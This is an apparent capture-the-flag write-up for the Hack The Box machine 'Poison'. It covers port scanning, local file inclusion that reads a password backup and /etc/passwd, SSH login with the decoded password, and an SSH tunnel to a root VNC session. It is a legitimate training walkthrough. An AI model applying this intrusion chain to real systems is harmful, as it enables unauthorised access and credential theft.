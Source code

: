 # Index
1. [Enumeration](#enumeration)
	<br>
	1.1 [Nmap](#nmap)
	</br>
	1.2	[Web Discovery](#webdiscovery)
	
2. [Privesc](#privesc)

#### Tags
<details markdown='1'>
<summary>Click to get a hint</summary> 
<ul>
	<li>LFI</li>
	<li>Password reuse</li>
	<li>Port forwarding</li>
	<li>VNC</li>
</ul>
</details>

### Enumeration
**IP Address** 10.10.10.84
#### Nmap
First step, as in any other machine, is running an Nmap.
I'm used to running in first place *Nmap -p- {ip}* so it does a scan through all 65535 ports of the machine.
```shell
nmap -p- 10.10.10.84                                   

Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-14 11:32 EDT
Nmap scan report for 10.10.10.84
Host is up (0.051s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 344.93 seconds
```
Once I know there is only two open ports, I like to run a more precise scan only in these ports:

#### WebDiscovery
As the port 80 is open, the first thing to do is visiting the webpage

![Image 1](https://github.com/sergioframi/HackTheBox/blob/master/pictures/01-poison.png)

In this webpage we are able to run some php files. The *listfiles.php* gets all my attention, so let's run it and observe the result.

![Image 2](https://github.com/sergioframi/HackTheBox/blob/master/pictures/02-poison.png)

To my surprise, we can observe a suspicious file called *pwdbackup.txt*. We can also observe that the file route is included in the URL.
First thing that comes to my mind is to try and get the *pwdbackup.txt* including it in the URL.

![Image 3](https://github.com/sergioframi/HackTheBox/blob/master/pictures/03-poison.png)

We get a base64 encoded password. After decoding it 13 times ([Cyberchef](https://gchq.github.io/CyberChef/) may be useful for this) we obtain the password ```Charix!2#4%6&8(0 ``` 

Second thing that comes to me is trying to get the */etc/passwd* file via [LFI](https://cobalt.io/blog/a-pentesters-guide-to-file-inclusion)

![Image 4](https://github.com/sergioframi/HackTheBox/blob/master/pictures/04-poison.png)

So, once we have a user (charix) an a password, it's time to try an ssh connection.

Finally, we are able to get the *user*:

![Image 5](https://github.com/sergioframi/HackTheBox/blob/master/pictures/05-poison.png)

### Privesc

After running *ls* at Charix's *home*, a file called *secret.zip* is discovered. Such file is a password protected file. So, I download it to local via scp:
```bash
scp charix@10.10.10.84:/home/charix/secret.zip .
```
After having this file in my local machine, the first password to try is the one we got before. With this, it is possible to extract the file, but it's not possible to read the content:

![Image 6](https://github.com/sergioframi/HackTheBox/blob/master/pictures/06-poison.png)

So, back at the *poison* machine, after some try and error with different scripts such as [LinPeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) or [suid3num.py](https://github.com/Anon-Exploiter/SUID3NUM), I got a closer look to the running procceses.

The one that really caughts my eye is the following *vnc* proccess running as root:

```shell
charix@Poison:~ % ps -aux
USER   PID  %CPU %MEM    VSZ   RSS TT  STAT STARTED     TIME COMMAND
root   529   0.0  0.9  23620  8872 v0- I    23:03    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -g
root   540   0.0  0.7  67220  7064 v0- I    23:03    0:00.02 xterm -geometry 80x24+10+10 -ls -title X Desktop
```
VNC is kind of an RDP for Linux systems. It usually runs on ports 5801 and 5901.
It can be checked with *netstat -an*:

![Image 7](https://github.com/sergioframi/HackTheBox/blob/master/pictures/07-poison.png)

To get a closer look to whats running in that port, I decided to run netcat:
```shell
charix@Poison:~ % nc 127.0.0.1 5901
RFB 003.008
```

By the "RFB" we are able to identify that VNC is running.
As vncviewer doesn´t exist in the poison machine, the option I had left is to perform an ssh tunnel, so the port 5901 would run in my machine.

```bash
ssh -L 5901:128.0.0.1:5901 charix@10.10.10.84
```
When the ssh is performed, is it possible to check if it's working by running *netstat -an* in the attacking machine. If it's running, a port 5901 should appear LISTENING.

Once that's working, its time to try and connect to the vncviewer, but it asks for a password:

```shell
vncviewer 127.0.0.1:5901                 
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
Authentication failed
```

After revieweng the manual for vncviewer, I noticed that it is possible to indicate a file as a password. So I remembered we have a *secret* file that hasn´t been used yet.
After performing the following command:

```bash
vncviewer -passwd secret 127.0.0.1:5901  
```

Access as root is granted to a graphical interface that has an opened shell:

![Image 8](https://github.com/sergioframi/HackTheBox/blob/master/pictures/08-poison.png)

Please, feel free to ([contact](https://twitter.com/sergioframi)  me if you want to ask or share anything about this machine. Thanks a lot! 

